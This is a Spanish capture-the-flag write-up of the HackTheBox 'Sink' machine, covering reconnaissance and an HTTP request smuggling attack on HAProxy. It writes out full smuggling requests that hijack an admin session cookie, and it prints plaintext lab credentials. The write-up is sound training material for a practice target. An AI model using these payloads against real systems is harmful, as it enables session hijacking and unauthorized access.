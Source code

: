 ```yaml
---
layout      : post
title       : "HackTheBox - Sink"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313banner.png
category    : htb
tags        : [ AWS-CLI, HTTP-request-smuggling, cookie-hijacking, gitea, .enc ]
---
```

Máquina **Linux** nivel desquiciado. Nos enfrentaremos a un `HTTP Request Smuggling` (loco loco), saltaremos entre usuarios aún más locos, veremos **commits** relacionados a pasos a producción y pruebas extrañas con 🔑🔑, jugaremos bastante con `AWS CLI`, encontraremos secretos :O y finalmente desencriptaremos un archivo también jugando con `AWS` y `llaves KMS`.

![313sinkHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313sinkHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [MrR3boot](https://www.hackthebox.eu/profile/13531).

Desquiceddd! Este writeup es largito (más que nada por los bloques de código), así que cafecito y a rompernos la cabeza...

> Muy linda máquina.

Nos encontraremos con dos servicios, uno corriendo `Gitea` y otro `Gunicorn`, en el camino nos veremos las caras con un `HTTP request smuggling` el cual nos permitirá interceptar la **cookie** de sesión del usuario `admin@sink.htb`. La usaremos para entrar en un panel y encontrar unas notas, cada una tiene una credencial, una de ellas nos permitirá entrar al servicio `Gitea` referenciado antes.

Veremos unos repositorios, commits y demás info. En uno de los commits el usuario `marcus` estaba haciendo pruebas con su llave `SSH` privada y nos dejó el rastro. Usaremos esa llave para entrar en la máquina como él.

Empezaremos a jugar con `AWS CLI` para ver **logs** y **secretos**, en el jugueteo :o encontraremos otras credenciales guardadas como eso, secretos. Una de ellas pertenecen al usuario `david` y nos permitirán generar una sesión como él tanto en `Gitea` como en la máquina.

**David** en sus archivos tiene uno llamado `servers.enc` y esta encriptado mediante `aws`. Seguiremos jugando con `AWS-CLI`, pero ahora con `kms` para interactuar con `keyId`**s** y buscar la manera de desencriptar el archivo validándolo contra distintas llaves que iremos encontrando.

Finalmente encontraremos una llave que nos devuelve una cadena en `base64`, la tomamos y guardamos en un archivo, el tipo de archivo generado es un comprimido `gzip`, usaremos `zcat` para descubrir que contiene el archivo `servers.yml`, veremos otras credenciales en este caso de un usuario llamado `admin`. Nos servirán para generar una Shell como el usuario `root`.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Muuuuuuuuuy real, alguna que otra cosita conocida pero sobre todo demasiada enumeración (mucha lectura y búsqueda).

> Escribo para tener mis "notas", por si algun día se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Vuelve que el dolor me mata.

1. [Reconocimiento](#reconocimiento).
  * [Usamos **nmap** para descubrir los puertos que tiene abiertos la máquina](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el servicio web corriendo en el puerto 3000](#puerto-3000).
  * [Descubrimos que hay en el servicio web del puerto 5000](#puerto-3000).
3. [Explotación](#explotacion).
  * [Encontramos cositas al interceptar las peticiones con **BurpSuite**](#playing_with_vuln).
  * [Robamos **cookies** del usuario **admin** explotando un **HTTP Request Smuggling**](#final_vuln).
  * [Encontramos cositas siendo el usuario **admin** en la web](#web-notes).
  * [Enumeramos el servicio del puerto **3000** (**Gitea**) como el usuario **root**](#gitea-root).
4. [Movimiento Lateral (**AWSecrets**)](#movimiento-lateral).
5. [Escalada de privilegios](#escalada-de-privilegios).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Usamos <u>nmap</u> para descubrir puertos abiertos [📌](#enum-nmap) {#enum-nmap}

Realizaremos un escaneo de puertos para saber que servicios esta corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.225 -oG initScan
```

| Parámetro  | Descripción |
| ---------- | :---------- |
| -p-        | Escaneamos todos los 65535 puertos.                     |
| --open     | Solo los puertos que estén abiertos.                    |
| -v         | Permite ver en consola lo que va encontrando (verbose). |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Wed Feb 17 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.225
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.225 ()   Status: Up
Host: 10.10.10.225 ()   Ports: 22/open/tcp//ssh///, 3000/open/tcp//ppp///, 5000/open/tcp//upnp///
# Nmap done at Wed Feb 17 25:25:25 2021 -- 1 IP address (1 host up) scanned in 90.06 seconds
```

Perfecto, nos encontramos los puertos y servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Tenemos la posibilidad de obtener una Shell de manera segura. |
| 3000   | **PPP**: No lo sabemos aún. |
| 5000   | **[UPnP](https://www.speedguide.net/port.php?port=5000)**: Conjunto de protocolos para la comunicación de periféricos en la red. |

Hagamos un escaneo de scripts y versiones con base en cada servicio (puerto), con ello obtenemos información más detallada de cada uno:

```bash
❭ nmap -p 22,3000,5000 -sC -sV 10.10.10.225 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos.                       |
| -sC       | Muestra todos los scripts relacionados con el servicio. |
| -sV       | Nos permite ver la versión del servicio.                |
| -oN       | Guarda el output en un archivo.                         |

Obtenemos:

```bash
# Nmap 7.80 scan initiated Wed Feb 17 25:25:25 2021 as: nmap -p 22,3000,5000 -sC -sV -oN portScan 10.10.10.225
Nmap scan report for 10.10.10.225
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=1f3e9a13ee13832b; Path=/; HttpOnly
|     Set-Cookie: _csrf=Aq4ydKpCQiIxK9nMLskgSeyGzwI6MTYxMzU3NjcxMDE1ODI4NzczNQ; Path=/; Expires=Thu, 18 Feb 2021 15:45:10 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Feb 2021 15:45:10 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=4962a49b06cbe2fd; Path=/; HttpOnly
|     Set-Cookie: _csrf=VEhuM5Nh9ZTyY63RRBsfaoun5dI6MTYxMzU3NjcxNjE4MjM4NjQzMg; Path=/; Expires=Thu, 18 Feb 2021 15:45:16 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Feb 2021 15:45:16 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
5000/tcp open  http    Gunicorn 20.0.0
|_http-server-header: gunicorn/20.0.0
|_http-title: Sink Devops
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.80%I=7%D=2/17%Time=602D37C4%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"...");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 17 25:25:25 2021 -- 1 IP address (1 host up) scanned in 108.67 seconds
```

Bien, tenemos varias cositas:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH                   | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 |
| 3000   | PPP (Al parecer HTTP) | - |

* Tiene varias referencias hacia `Gitea`.
* Vemos 2 cookies y una relacionada a `gitea`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 5000   | HTTP     | Gunicorn 20.0.0 |

Nada más por ahora, así que empecemos a validar cada servicio y ver por donde podemos jugar...

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Recorremos el puerto 3000 [📌](#puerto-3000) {#puerto-3000}

![313page3000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000.png)

Listos, confirmamos el servicio `Gitea`.

🦠 ***Básicamente nos permite alojar control de versiones usando `Git` y es un fork (copia) de [Gogs](https://onthedock.github.io/post/171106-gogs-como-crear-tu-propio-servicio-de-hospedaje-de-repos-git/) (que nos ayuda a correr nuestro propio servicio `Git`, mejor dicho, tener nuestro propio <u>GitHub</u>), pero mejorado y para toda la familia.***

* [**Gitea**, la versión mejorada de **Gogs**](https://onthedock.github.io/post/180713-gitea-la-version-mejorada-de-gogs/).
* [Comparativa entre varios servicios de **Git hosting**](https://docs.gitea.io/en-us/comparison/).

Vale, entonces enumeremos a ver que sacamos...

Si vamos al apartado `explore` tenemos 3 ítems, veamos `users`:

![313page3000_explore_users](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_users.png)

* Usuario: `david`.
* Usuario: `marcus`.
* Usuario: `root`.
* Versión **Gitea**: `1.12.6`.
* Versión **Go**: `1.14.12`.

Validando cada usuario, vemos que todos están asociados a una organización, `Sink_Solutions`, en **Organizations** la encontramos:

![313page3000_explore_organizations](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_organizations.png)

![313page3000_explore_organizations_sinksolutions](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_explore_organizations_sinksolutions.png)

También podemos logearnos, probando con los usuarios y posibles contraseñas no conseguimos nada...

![313page3000_signin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_signin.png)

Buscando vulnerabilidades con las versiones relacionadas encontramos una que posiblemente (no creo :P) esté relacionada, pero debemos estar autenticados, guardémosla por si algo:

* [Gitea-1.12.6: Authenticated remote code execution via git hooks (CVE-2020-14144)](https://bugs.gentoo.org/750686).

...

## Recorremos el puerto 5000 [📌](#puerto-5000) {#puerto-5000}

🦄 ***`Gunicorn` (Green Unicorn) is a <u>Python WSGI HTTP Server for UNIX</u>. It’s a pre-fork worker model compatible with various web frameworks, simple and lightweight server.*** [musyokaian](https://musyokaian.medium.com/server-side-template-injection-ssti-afa201f2afbb).

Pero khe jeso de ***WSGI***, rápidamente:

⚙️ ***`WSGI` permite que programas hechos en <u>Python</u> puedan comunicarse a través del protocolo <u>HTTP</u> sin ningún tipo de framework o librería.*** [codigofacilito](https://codigofacilito.com/articulos/wsgi-python).

![313page5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000.png)

Tenemos un login panel, pero también nos podemos registrar, démosle...

![313page5000_signup](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_signup.png)

![313page5000_home](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_home.png)

* Tenemos un correo: `admin@sink.htb`.

Bien, pa que lo sepamos:

![313page5000_home_whatisDevOps](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_home_whatisDevOps.png)

En el apartado `notes` nos permite agregar, ver y borrar notas:

![313page5000_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes.png)

![313page5000_notes_more](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_more.png)

> Son notas que cree para probar algun tipo de injección o brecha. Pero por el momento nada...

...

# Explotación [#](#explotacion) {#explotacion}

---

* [Jugando para entender la explotación](#playing_with_vuln).
* [Explotación final de algo muy locochón](#final_vuln).

...

## Encontramos un vector de ataque muuuy potencial [📌](#playing_with_vuln) {#playing_with_vuln}

Bueno bueno bueeeeeeeeeeno... 

Después de dar vueltas por las páginas con **BurpSuite** interceptando las peticiones del servidor `http://10.10.10.25:5000`, notamos algo llamativo:

![313burp5000_home_haproxy_found](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_home_haproxy_found.png)

Esta usando un proxy llamado `HAProxy` entre las peticiones, pues veamos que se trata:

🚇 ***`HAProxy` es un balanceador de cargas (load balancer: <u>transfiere peticiones entre host para evitar colapsos y hacer que sean procesadas más rápido</u>) entre servidores.***

* [YT - Balanceador de carga con **HAProxy**](https://www.youtube.com/watch?v=7ljiOD6MbLA).
* [HAProxy en Wikipedia](https://en.wikipedia.org/wiki/HAProxy).
* [Balanceadores de carga, mejora el rendimiento de tu web](https://www.redeszone.net/tutoriales/servidores/balanceador-carga-load-balancer-que-es-funcionamiento/).

Teniendo esto claro, validemos si existen vulnerabilidades hacia ese servicio...

Inicialmente nos encontramos con el CVE [CVE-2020-11100](https://www.cybersecurity-help.cz/vdb/SB2020040219), el cual apoyado del protocolo `HTTP/2` (para hacer un uso más eficiente de los recursos en la red) puede permitirle al atacante enviar una petición "especial", que puede generar un `heap-based buffer overflow` y finalmente una ejecución remota de comandos en el sistema.

* [Heap-based Buffer Overflow? - cwe.mitre.org](https://cwe.mitre.org/data/definitions/122.html).
* [Desbordamiento de montículo (heap) - Wikipedia](https://es.wikipedia.org/wiki/Desbordamiento_de_mont%C3%ADculo).

Es una vulnerabilidad descubierta por `Felix Wilhelm` (integrante del grupo de hackers de **Google** (`Project Zero`)), en el blog oficial de `HAProxy` nos redireccionan al writeup creado por él:

* [HAProxy Security Update HTTP/2 HPACK - haproxy.com](https://www.haproxy.com/blog/haproxy-1-8-http-2-hpack-decoder-vulnerability-fixed/).
* [HAProxy: out-of-bounds-write in HTTP/2 - bugs.chromium.org](https://bugs.chromium.org/p/project-zero/issues/detail?id=2023).

Dándole vistazos a otros recursos y temas relacionados a esa vuln, no logre interactuar con ella... 

...

Buscando y buscando encontré un [PoC en formato de video](https://www.youtube.com/watch?v=nq0ndhkfV_M) explotando una vulnerabilidad llamada:

```html
HTTP Request Smuggling
``` 

Y que afecta a `HAProxy`, esta tiene relacionado el CVE [CVE-2019-18277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18277).

* [YT - HTTP Request Smuggling explain on **HAProxy CVE-2019-18277**](https://www.youtube.com/watch?v=nq0ndhkfV_M).

Antes de probar la vuln, entendamos (o intentémoslo) sobre `HTTP Request Smuggling`.

---

### ¿Qué es un <u>HTTP Request Smuggling</u>? (Descubrámoslo) [🪕](#what-is-smuggling) {#what-is-smuggling}

Como indica [**Busra Demir** en su artículo](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling), `HTTP request smuggling` es una técnica la cual interfiere en el proceso por el que pasan las peticiones del front al back. Donde el atacante puede modificar la petición para incluir otra en la misma petición. Lo que pasara es que ejecutara la primera petición normalmente, pero al terminar de procesarla ejecutara la segunda que tenemos incrustada, logrando así el éxito de la vulnerabilidad. 

Esto se logra **modificando/agregando** <u>2 headers HTTP</u>:

```html
* Content-Length Header: the size of the request body (in bytes).
* Transfer-Encoding Header: specified as chunked so that the request body will be sent in chunks (separated by newline). 0 is used to end a chunk.
```

* [**Pentester guide to HTTP Request Smuggling**](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling).

Pero **¿para qué nos sirve esto?** Como explica [portswigger](https://portswigger.net/web-security/request-smuggling) nos puede permitir <u>bypassear controles de seguridad</u>, <u>obtener acceso a información sensible</u> yyyy <u>comprometer otros usuarios que estén en la aplicación</u>.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313http_request_smuggling.svg" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> Tomada de [What is HTTP request smuggling? - portswigger](https://portswigger.net/web-security/request-smuggling).

...

Ahora sí, sigamos y probemos si nuestra versión es vulnerable a `HTTP Request Smuggling`...

Siguiendo algunos ejemplos de referencias anteriores y de [este artículo](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142), logramos obtener la versión de `HAProxy` que esta usando el servidor:

* [The Powerfull HTTP Request Smuggling - medium.com/ricardoiramar](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142).

Si enviamos la siguiente petición:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_versionHAProxy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* Enviamos la data en formato `chunked` (separada por `\n` (newline)).
* El total de la traza serian `9` caracteres (`note=hola`).
* Con `0` le indicamos el final de la data en formato `chunk`.

Obtenemos la versión concreta de **HAProxy**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_res_versionHAProxy.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> HAProxy Version 1.9.10

Bueno, pues podemos enfocarnos un poco más. Quizás esta sea la ruta adecuada para la explotación. Sigamos validando si podemos explotar la web mediante el smuggling... 

En las referencias del CVE, encontramos este **PoC**:

* [HAProxy HTTP Request Smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling).

Dándole unas vueltas nos indica algo necesario para la correcta explotación:

> The backend must also support HTTP <u>keep-alive</u>.

Así que debemos cambiar el **header** `Connection: close` a `Connection: keep-alive`.

Démosle a la locura, modifiquemos la petición incrustando otra solicitud a ver que recibimos:

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 259                                               <!-- original -->
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding: chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                   <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y validamos el apartado `/notes`, tenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

**Nada :P 😂**

...

## Logramos la explotación del <u>HTTP Request Smuggling</u> [📌](#final_vuln) {#final_vuln}

Revisando de nuevo el post, nos dice que <u>muchas veces el </u>`chunked`<u> no es tomado y debemos agregarle al inicio de ese header la cadena </u>`\x0b`<u> (hexadecimal) </u>**<u>para que lo interprete</u>**. 

Después de jugar con él, intentando agregarlo a la petición, obteníamos lo mismo. Peeeeeeero era porque lo estaba haciendo mal. 

Si pasamos el valor hexadecimal a **base64** externamente (nosotros mismos) y después en **Burp** usamos el convertidor interno de **base64** al valor original, ahí si logramos ver el `\x0b` reflejado:

1. Pasar `0b` a **base64**: `Cw==`.
2. Pegar `Cw==` en la petición, seleccionarlo y decodearlo de **base64** a valor original:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Seleccionamos la cadena `Cw==` y hacemos:

```html
Clic derecho > Convert-Selection > Base64 > Base64-decode (o de la forma corta: CTRL + SHIFT + B)
```

Y obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded                        <!-- original -->
Content-Length: 259
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                        <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

Perfecto, validemos si cambia algo ahora...

Nos genera dos notas, una esta vacía y la otra llenita :P Veamos la llenita claramente:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vale vale valeeeeeeeeeee, que es esta locuraaaaaaaaaaaa... Tenemos una nueva `cookie` de algún usuario (o pues al menos es diferente a la nuestra) corriendo el servicio sobre el `localhost`.

Viendo lo que tenemos podemos intuir que esta pasando:

> (Esto puede sonar enrredado (supongo) pero es lo que entiendo que paso)

🚨 ***Normalmente (como vimos en las explicaciones anteriores) queremos ingresar a algún recurso al que no tengamos acceso. Como en este caso no sabemos a cuál, lo lanzamos contra el mismo recurso. Vemos que se efectúa nuestro intento, logrando así <u>interceptar la otra petición, pero obteniendo la respuesta en el mismo recurso que usamos para enviarla</u> (o sea, en `/notes`)*** 

La petición es un `delete` a la nota **1234** (`/notes/delete/1234`) pero ejecutada desde el `localhost` por el puerto `8080` y claramente por un usuario interno, lo sabemos por qué obtenemos una `Cookie` distinta a la nuestra. Podemos usarla para cambiar la que tenemos por esa, recargar la página y ver con quien estamos (si es que cambiamos a otro usuario)...

```html
GET /notes/delete/1234 HTTP/1.1
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDSQAA._g
```

Pero si notamos el tamaño de la `cookie` es más corto (la comparamos con la nuestra), agreguémosle más buffer, simplemente cambiando el valor de la cabecera a `Content-Length: 250` por ejemplo y veamos la respuesta ahora:

> (Justo acá reiniciaron la máquina, pero pues lo unico que cambiaran seran las cookies, tanto la mia como la que obtengamos)

La respuesta que tenemos en la nueva nota es:

```html
Nada ._ .
```

Si ponemos más de **308** como tamaño volvemos a obtener solo una nota, entonces podemos borrar el contenido de `note=` (para liberar espacio) y coloquemos `Content-Length: 303` (después de algún tanteo):

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 254
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 303
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDWNyg.naJPYMmG6_8HKfdGqeeJMTwjVR4

note=
```

Y obtenemos ahora si en la nota:

```html
GET /notes/delete/1234 HTTP/1.1 
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDWL9A.dG5uqF6Y8oZfi7uQi3IATStQVIA 
X-Forwarded-For: 127.0.0.1
```

Perfecto, ahora si es del tamaño adecuado :)

> (Volvieron a reiniciar la máquina😐)

Tomemos la cookie. Yo usare la extensión de Firefox llamada `Cookie-Editor` (que nos permite jugar con las cookies claramente :P)

Añadimos una nueva cookie, le ponemos de nombre `session` y pegamos la cookie que encontramos y damos clic en guardar (`add`). Ahora simplemente recargamos la página y estaríamos dentro como el usuario `admin@sink.htb`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_changed_cookie_adminSINKhtb.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313google_gif_kidperfect.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

...

## Encontramos cositas siendo el usuario <u>admin</u> [📌](#web-notes) {#web-notes}

Si revisamos las notas tenemos 3:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_admin_notes.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

El contenido de cada una es el siguiente:

```html
Note (1):

Chef Login : http://chef.sink.htb Username : chefadm Password : /G'FEGc&zEx{4]zz
```

```html
Note (2):

Dev Node URL : http://code.sink.htb Username : root Password : FaH@3I>ZB})zzfO3
```

```html
Note (3):

Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : gB>HGGK\{*L.f83C
```

Opa, tenemos 3 nuevas URL (una aparentemente con certificado SSL), con sus respectivos usuarios y contraseñas... Agreguémoslas al `/etc/hosts` e inspeccionemos...

```bash
❭ cat /etc/hosts
...
10.10.10.225  chef.sink.htb code.sink.htb nagios.sink.htb
...
```

